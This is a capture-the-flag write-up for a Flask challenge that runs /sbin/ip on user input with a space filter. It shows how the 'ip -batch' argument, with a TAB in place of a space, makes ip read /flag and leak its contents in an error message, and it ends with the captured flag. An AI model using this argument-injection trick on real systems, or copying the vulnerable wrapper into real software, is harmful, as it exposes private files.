

## Description

After the havoc we wreaked last time, the corporate rises again like a phoenix from the ashes, they've bolstered their defenses, but rest assured, we know that nothing can incapacitate our cyber wizard.
The phoenix might have risen again, but will it stand your relentless slaughter ?

**source code available**

## Solution

when visiting the page, we get this :


it's similar to the previous `Network Navigators Odyssey`, let's check the source code :

```python
from flask import Flask, render_template, request
import subprocess
import os

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/', methods=['POST'])
def ip():
    option = request.form['option']
    # Check that user input doesn't contain any spaces
    if " " in option:
        return "No spaces are allowed."
    # Double the check by spliting user input into an array before passing it securely to subprocess.check_output()
    option = ['/sbin/ip'] + option.split()

    try:
        # Use shell=False to prevent any shell injections
        result = subprocess.check_output(option, text=True,timeout=1,stderr=subprocess.STDOUT, shell=False)
        return f'{result}'
    except subprocess.CalledProcessError as e:
        return f'Error: {e.output}'
    except Exception as e:
        return f"Error {e}"

if __name__ == '__main__':
    app.run(host='0.0.0.0',port=5000,debug=True)
```

this time our the filter is only for spaces, the command executes `/sbin/ip OUR_INPUT`, but it executes the command differently, this time it executes subprocess with `shell=False`, this means there is no way we can get command injection.

instead, let's try another approach, we can try to read files with the `ip` command it self, let's check the ip command help :

```
└─$ ip --help
Usage: ip [ OPTIONS ] OBJECT { COMMAND | help }
       ip [ -force ] -batch filename
where  OBJECT := { address | addrlabel | amt | fou | help | ila | ioam | l2tp |
                   link | macsec | maddress | monitor | mptcp | mroute | mrule |
                   neighbor | neighbour | netconf | netns | nexthop | ntable |
                   ntbl | route | rule | sr | tap | tcpmetrics |
                   token | tunnel | tuntap | vrf | xfrm }
       OPTIONS := { -V[ersion] | -s[tatistics] | -d[etails] | -r[esolve] |
                    -h[uman-readable] | -iec | -j[son] | -p[retty] |
                    -f[amily] { inet | inet6 | mpls | bridge | link } |
                    -4 | -6 | -M | -B | -0 |
                    -l[oops] { maximum-addr-flush-attempts } | -br[ief] |
                    -o[neline] | -t[imestamp] | -ts[hort] | -b[atch] [filename] |
                    -rc[vbuf] [size] | -n[etns] name | -N[umeric] | -a[ll] |
                    -c[olor]}
```

one argument stands out, which is `-batch filename`, this argument read commands from provided file or standard input and invoke them, but if we provide it a file with an invalid command, we get an error with the content of the first word of that file, let's test this out on our machine :

```
└─$ echo 'testflag{THIS_IS_A_TEST}' > test

└─$ ip -batch test
Object "testflag{THIS_IS_A_TEST}" is unknown, try "ip help".
Command failed test:1
```

this works, but the only problem is that we can't provide spaces, and the `${IFS}` trick won't work on this challenge, but there is another trick, we can use a `TAB` instead of a space, let's try it out, first we intercept the request with burp and send it to repeater, then we send this `-batch(TAB)/flag` :



- flag: `shellmates{5laugh73r_7h3_Pho3niXx!___1njec7_1T_w1tH_@rgum3ntSs!!}`

